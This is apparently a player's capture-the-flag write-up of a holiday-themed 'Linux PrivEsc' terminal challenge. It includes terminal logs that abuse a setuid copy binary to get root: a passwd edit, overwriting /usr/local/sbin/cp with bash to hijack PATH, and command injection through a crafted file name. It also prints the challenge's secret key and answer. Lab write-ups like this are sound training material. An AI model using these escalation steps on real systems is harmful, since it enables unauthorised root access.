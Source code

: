 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective5.zip](https://.../)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold (Ostrich Saloon)"
    In a digital winter wonderland we play,<br/>
    Where elves and bytes in harmony lay.<br/>
    This festive terminal is clear and bright,<br/>
    Escalate privileges, and bring forth the light.<br/>

    Start in the land of bash, where you reside,<br/>
    But to win this game, to root you must glide.<br/>
    Climb the ladder, permissions to seize,<br/>
    Unravel the mystery, with elegance and ease.<br/>

    There lies a gift, in the root's domain,<br/>
    An executable file to run, the prize you'll obtain.<br/>
    The game is won, the challenge complete,<br/>
    Merry Christmas to all, and to all, a root feat!<br/>

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.

## Solution

This is my first attempt, hit a wall. 
``` 
sed -i 's/^elf:x:1000:1000::\/home\/elf:/elf:x:1000:1000:root:\/root:/' passwd1

elf@795c35ce2d2c:/usr/bin$ simplecopy /root/* /home/elf/

simplecopy "$LFILE" /dev/stdout > newrun

LFILE=/root/runmetoanswer

elf@de8289623969:/tmp$ chmod +x newrun
elf@de8289623969:/tmp$ newrun
bash: newrun: command not found
elf@de8289623969:/tmp$ ./newrun

Something went wrong reading the configuration file /etc/runtoanswer.yaml: Couldn't open file: Permission denied (os error 13)

If this persists, please ask for help!

elf@de8289623969:/tmp$ cat runtoanswer1.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"

text: |
  Who delivers Christmas presents?

success_message: "Your answer is *correct*!"
failure_message: "Sorry, that answer is *incorrect*. Please try again!"

# A prompt that is displayed if the user runs this interactively (they might
# not see this - answers can be entered as an argument)
prompt: "> "

# Optional: a time, in seconds, to delay before validating the answer (to
# prevent guessing)
delay: 1

# Optional: skip (most) stdout output if the answer is correct
headless: false

# If set to true, don't exit after the user asks
keep_going: false

# Optional: play this sound on completion or failure
#completion_sound: 'myhappysound.mp3'
#failure_sound: 'mysadsound.mp3'

# Close the terminal when it is completed?
```
Then I used another way, find a method to escalate privileges inside this terminal and then run the binary in /root 

```
strings simple copy

env

/usr/local/sbin/cp is the priority of $PATH environment variable. 

simplecopy /usr/bin/bash /usr/local/sbin/cp

elf@d5e39028f5f3:~$ env
HOSTNAME=d5e39028f5f3
RESOURCE_ID=3f342ba4-af1b-409c-8b37-27cdc88af654
PWD=/home/elf
HOME=/home/elf
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
HHCUSERNAME=Thomasmeeee
AREA=imtostrichsaloon
TERM=xterm
TOKENS=linuxpriv
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
LOCATION=7,6
_=/usr/bin/env
elf@d5e39028f5f3:~$ 
elf@d5e39028f5f3:~$ 
elf@d5e39028f5f3:~$ 
elf@d5e39028f5f3:~$ simplecopy /usr/bin/bash /usr/local/sbin/cp  
elf@d5e39028f5f3:~$ cd /tmp
elf@d5e39028f5f3:/tmp$ touch abc
elf@d5e39028f5f3:/tmp$ simplecopy /root/* ./
/root/runmetoanswer: /root/runmetoanswer: cannot execute binary file
elf@d5e39028f5f3:/tmp$ echo "/root/runmetoanswer" >> abc
elf@d5e39028f5f3:/tmp$ cat abc
/root/runmetoanswer
elf@d5e39028f5f3:/tmp$ simplecopy "abc" "abc"
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!

```

### Admonitions

!!! warning "Anchor the decorations"
    Ensure that all festive decorations, especially electrical ones, are securely anchored. We don’t want them floating off into the tropical sunset!

!!! info "Palm tree lighting"
    While on the island, make sure to hang your Christmas lights on a palm tree. It’s not only festive but also a great beacon for Santa to find you!

### Images

![Terminal output](../img/objectives/o7/terminal_output_o7.png)

### Question 1

!!! question "Question"
    Who delivers Christmas presents?

!!! success "Answer"
    santa

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.<br/>
    To answer your question of why from earlier... Nunya!<br/>
    But, I will tell you something better, about some information I... found.<br/>
    There's a hidden, uncharted area somewhere along the coast of this island, and<br/> there may be more around the other islands.<br/>
    The area is supposed to have something on it that's totes worth, but I hear all <br/>the bad vibe toys chill there.<br/>
    That's all I got. K byyeeeee.<br/>
    Ugh... n00bs...<br/>
